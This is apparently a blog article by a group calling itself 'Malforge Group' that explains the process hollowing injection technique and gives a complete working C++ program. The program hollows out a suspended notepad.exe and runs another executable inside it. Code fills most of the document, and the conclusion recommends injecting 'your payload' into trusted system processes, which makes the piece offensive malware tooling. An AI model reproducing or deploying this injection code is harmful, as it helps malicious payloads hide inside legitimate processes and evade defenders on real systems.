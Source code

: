 # Process Hollowing

## Introduction

Welcome to my new article! Today, I’ll be demonstrating the Process Hollowing technique — a popular sub-technique of process injection that has become one of the most widely used methods in recent years.

### What is?

Information by:

> Process Hollowing (Mitre:T1055.012) - Hacking Articles\
In July 2011, John Leitch of autosectools.com talked about a technique he called process
hollowing in his whitepaper, [hackingarticles.in](https://www.hackingarticles.in/process-hollowing-mitret1055-012/)

The core concept behind process hollowing is relatively simple. In this technique, an attacker starts by creating a new process in a suspended state. The legitimate process image is then unmapped—or 'hollowed out'—from memory. The attacker then writes malicious code into the emptied memory space and resumes the process, causing it to execute the injected payload instead of its original code.

### Injection Steps:

- Injecting the shellcode into target process
- Retrieve ImageBaseAddress of the executable image
- Read executable image of the remote process into a buffer
- Unmap executable image from the process
- Hook somewhere of the copied image so it will jump to shellcode
- Remap the section into the remote process using above techniques

![image](https://github.com/user-attachments/assets/5306c13d-38ab-4195-b055-d953b1b70268)

---

## Code

Code by:

> Process Hollowing and Portable Executable Relocations\
Code injection, [ired.team](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

```c++
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>

using NtUnmapViewOfSection = NTSTATUS(WINAPI *)(HANDLE, PVOID);

typedef struct BASE_RELOCATION_BLOCK
{
    DWORD PageAddress;
    DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY
{
    USHORT Offset : 12;
    USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
    // create destination process - this is the process to be hollowed out
    LPSTARTUPINFOA si = new STARTUPINFOA();
    LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
    PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
    DWORD returnLenght = 0;
    CreateProcessA(NULL, (LPSTR) "c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
    HANDLE destProcess = pi->hProcess;

    // get destination imageBase offset address from the PEB
    NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
    DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8;

    // get destination imageBaseAddress
    LPVOID destImageBase = 0;
    SIZE_T bytesRead = NULL;
    ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

    // read source file - this is the file that will be executed inside the hollowed process
    HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ, NULL, NULL, OPEN_ALWAYS, NULL, NULL);
    DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
    LPDWORD fileBytesRead = 0;
    LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
    ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);

    // get source image size
    PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
    PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
    SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

    // carve out the destination image
    NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
    myNtUnmapViewOfSection(destProcess, destImageBase);

    // allocate new memory in destination image for the source image
    LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    destImageBase = newDestImageBase;

    // get delta between sourceImageBaseAddress and destinationImageBaseAddress
    DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

    // set sourceImageBase to destImageBase and copy the source Image headers to the destination image
    sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
    WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

    // get pointer to first source image section
    PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
    PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
    int err = GetLastError();

    // copy source image sections to destination
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
        PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
        WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
        sourceImageSection++;
    }

    // get address of the relocation table
    IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

    // patch the binary with relocations
    sourceImageSection = sourceImageSectionOld;
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        BYTE *relocSectionName = (BYTE *)".reloc";
        if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0)
        {
            sourceImageSection++;
            continue;
        }

        DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
        DWORD relocationOffset = 0;

        while (relocationOffset < relocationTable.Size)
        {
            PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
            relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
            DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
            PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

            for (DWORD y = 0; y < relocationEntryCount; y++)
            {
                relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

                if (relocationEntries[y].Type == 0)
                {
                    continue;
                }

                DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
                DWORD patchedBuffer = 0;
                ReadProcessMemory(destProcess, (LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
                patchedBuffer += deltaImageBase;

                WriteProcessMemory(destProcess, (PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
                int a = GetLastError();
            }
        }
    }

    // get context of the dest process thread
    LPCONTEXT context = new CONTEXT();
    context->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(pi->hThread, context);

    // update dest image entry point to the new entry point of the source image and resume dest image thread
    DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
    context->Eax = patchedEntryPoint;
    SetThreadContext(pi->hThread, context);
    ResumeThread(pi->hThread);

    return 0;
}
```

Step 1: Creating a new process in a suspended state:
  - `CreateProcessA()` with `CREATE_SUSPENDED` flag set

Step 2: Swap out its memory contents (unmapping/hollowing):
  - `NtUnmapViewOfSection()`

Step 3: Input malicious payload in this unmapped region:
  - `VirtualAllocEx` : To allocate new memory
  - `WriteProcessMemory()` : To write each of malware sections to target the process space

Step 4: Setting EAX to the entrypoint:
  - `SetThreadContext()`

Step 5: Start the suspended thread:
  - `ResumeThread()`

---

## Conclusion

Below are all the steps and code needed to perform process hollowing. I suggest using this technique to inject your payload into either trusted system processes or custom processes you spawn yourself.

Thank You For Reading! :)

**- Malforge Group**


